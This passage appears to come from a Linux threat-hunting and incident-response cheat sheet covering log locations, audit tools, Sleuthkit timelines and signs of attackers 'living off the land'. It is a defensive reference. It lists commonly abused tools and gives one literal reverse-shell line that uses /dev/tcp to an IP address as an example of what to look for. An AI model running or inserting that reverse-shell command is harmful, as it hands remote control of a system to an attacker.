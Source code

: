   * sudo can run commands as root or as other users
* Examine sshd sessions around time of event  
  * Current logs: /var/log/secure  or /var/log/auth
  * Historical logs: /var/log/secure-YYYYMMDD 
* Check application logs
  * Typically do not log through syslog if the software was not installed by the package manager
  * Can exist anywhere on the system
  * LLR collections *.log off disk into otheroslogs.tar.gz but would skip *.log.gz
* Examine audit logs
  * /var/log/audit.log if installed and running
  * Contents are dependent on administrator’s custom configuration
  * ausearch is powerful for searching audit.log
  * aureport generates a report on audit.log
* If the image or access to the filesystem is available, use the Sleuthkit to make a timeline
  * fls –rd / > filedump.txt
  * mactime –b filedump.txt > filedump_mac.txt
* Look for signs of an adversary "Living off the land"
  * arp nmap ping who whoami traceroute nslookup dig telnet netstat lsof host ss route macchange ip tcpkill id getent wget curl shred touch openssl chattr gcc history iptables xwd
  * L.O.L. exampe: /bin/bash -c '/bin/sh 0</dev/tcp/192.168.56.103/12345 1>&0 2>&0' 2>&1
  
Sources:  
* Sqrrl Huntpedia PDF  
* Endgame Guide to Threat Hunting  
* JPCert Tool Analysis Report  
* SANS 508  
* SANS Finding Evil in the Whitelist  
